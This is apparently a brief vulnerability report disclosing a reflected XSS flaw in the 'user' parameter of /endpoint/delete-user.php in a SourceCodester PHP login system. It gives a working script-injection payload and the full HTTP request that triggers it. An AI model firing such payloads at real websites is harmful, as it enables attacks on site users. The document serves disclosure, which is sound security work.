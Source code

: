 ## User Registration and Login System by rems has xss (Reflected XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



Vulnerability File: /endpoint/delete-user.php





[+] payload: /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt>
```
GET /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt> HTTP/1.1
Referer: http://192.168.6.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.6.1
Connection: Keep-alive

```
![Alt text](image.png)
